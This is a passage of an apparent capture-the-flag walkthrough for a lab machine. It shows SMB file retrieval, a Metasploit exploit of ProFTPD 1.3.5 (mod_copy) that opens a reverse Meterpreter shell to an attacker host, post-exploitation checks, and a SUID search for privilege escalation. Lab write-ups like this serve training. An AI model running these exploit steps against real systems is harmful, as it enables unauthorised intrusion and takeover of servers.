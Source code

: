 **Command/Code:**
```bash
smb: \> get log.txt
smb: \> exit
cat log.txt
```

**Output:**
```
ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.10.10]
```

### Step 5: ProFTPD Exploitation
Use Metasploit to exploit the ProFTPD vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 10.10.10.10
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.10:21 - Connecting to the server...
[*] 10.10.10.10:21 - Sending exploit...
[*] Sending stage (175174 bytes) to 10.10.10.10
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.10:32891) at 2025-08-30 10:05:23 +0000
```

### Step 6: Post-Exploitation
Once we have a shell, gather information and find flags.

**Command/Code:**
```bash
whoami
id
pwd
```

**Output:**
```
kenobi
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi)
/home/kenobi
```

### Step 7: Privilege Escalation
Check for privilege escalation opportunities.

**Command/Code:**
```bash
find / -perm -4000 2>/dev/null
sudo -l
```
